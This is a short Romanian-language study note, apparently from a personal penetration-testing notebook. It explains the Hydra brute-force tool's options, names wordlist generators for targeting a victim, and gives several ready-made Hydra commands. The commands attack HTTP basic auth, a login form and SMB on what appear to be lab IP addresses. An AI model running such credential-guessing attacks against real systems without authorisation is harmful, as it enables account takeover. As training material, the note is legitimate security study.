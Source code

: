 `-C` -- pentru perechea de `user:pass`
`-s` -- portul pentru serviciul specificat
`http-get` -- este folosit pentru formul care esa momental pe site 
`-f` -- se opreste daca gaseste username si parola corecta
`-L` -- lista de username
`-l` -- pentru un username static
`-P` -- lista de passwords
`-p` -- pentru un password static
`-u` -- ?
`http-post-form -U` - ne arata unele exemple si cum trebuie sa fii folosita formul dat

Pentru a genera dictionarile pentro o victina putem folosi instrumentul [[cupp]] in caz ca avem nevoie de shimbare unui cuvant cu altul sau schimbari folosim [[rsmangler]] (https://github.com/digininja/RSMangler) sau [The Mentalist](https://github.com/sc0tfree/mentalist.git). 



# Exemples
```bash
hydra -C Default-Credentials/ftp-betterdefaultpasslist.txt -s 35040  94.237.62.195 http-get /
```

```bash 
hydra -P /usr/share/wordlists/rockyou.txt -L Names/names.txt -u -f 94.237.62.195 -s 53474 http-get /
```

```bash
hydra -C Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.59.206 -s 49589 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

### SMB Brute
Pentru a sparce parola la serviciul [[SMB]] putem folosi comanda:
```bash
hydra -L <List_User> -P <List_Pass> -t 25 smb://<IP>
```
In caz ca stim `user`-ul putem sal setam in formatul dat `-l jim` la fel putem proceda cu parola.

